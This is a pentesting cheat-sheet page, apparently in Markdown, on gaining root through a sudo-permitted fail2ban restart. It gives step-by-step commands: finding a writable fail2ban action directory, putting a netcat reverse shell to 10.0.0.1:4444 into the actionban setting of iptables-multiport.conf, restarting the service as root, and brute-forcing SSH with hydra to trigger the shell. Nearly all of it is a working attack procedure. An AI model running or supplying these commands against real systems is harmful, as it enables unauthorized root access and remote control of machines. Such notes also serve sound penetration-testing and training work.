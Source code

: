 ```yaml
---
title: Sudo Fail2ban Privilege Escalation
description: Sudo fail2ban command might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


**Fail2ban** is an intrusion prevention software framework.  
It prevents against brute force attacks.  

## Investigation

```sh
sudo -l

(root) NOPASSWD: /etc/init.d/fail2ban restart
```

If we can execute **"fail2ban"** as root, we can gain access to privileges by modifying the configuration file.  
We need to check if the config file is writable.

```sh
find /etc -writable -ls 2>/dev/null

4 drwxrwx--- 2 root security  4096 Oct 16 08:57 /etc/fail2ban/action.d
```

Look inside of **"/etc/fail2ban/jail.conf"** to know more about how fail2ban is configured.

```sh
less /etc/fail2ban/jail.conf

# ---------------------------------------------

# output

...
# "bantime" is the number of seconds that a host is banned.
bantime  = 10s

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10s

# "maxretry" is the number of failures before a host get banned.
maxretry = 5
...
```

<br />

## Exploitation

### 1. Modify the Configuration File

For privilege escalation, we need to update the **"iptables-multiport.conf"**.  
Specifically, insert a payload to one of the following values.

- **actionstart**
- **actionstop**
- **actioncheck**
- **actionban**
- **actionunban**

Here update the value of **actionban** which triggers ban on multiple login attempts.  
Copy  **iptables-multiport.conf** to the current user's home directory.

```sh
ls -al /etc/fail2ban/action.d/iptables-multiport.conf
# copy this file into the home directory for editing the content
cp /etc/fail2ban/action.d/iptables-multiport.conf ~
```
Now modify the file.

```sh
vim ~/iptables-multiport.conf
```

We insert a reverse shell payload into the **actionban**.

```sh
actionban = /usr/bin/nc 10.0.0.1 4444 -e /bin/bash
```

Then move back the config file to the original one.

```sh
mv ~/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```

To apply the new configuration, restart it as root.

```sh
sudo /etc/init.d/fail2ban restart
```

### 2. Trigger the Action

Start a listener in local machine.

```sh
nc -lvnp 4444
```

Try to login with the wrong passwords multiple times until we will get banned.  
So that to, **hydra** is useful.

```sh
hydra -l root -P passwords.txt <target-ip> ssh
```

After a short time, you will get a root shell via listener.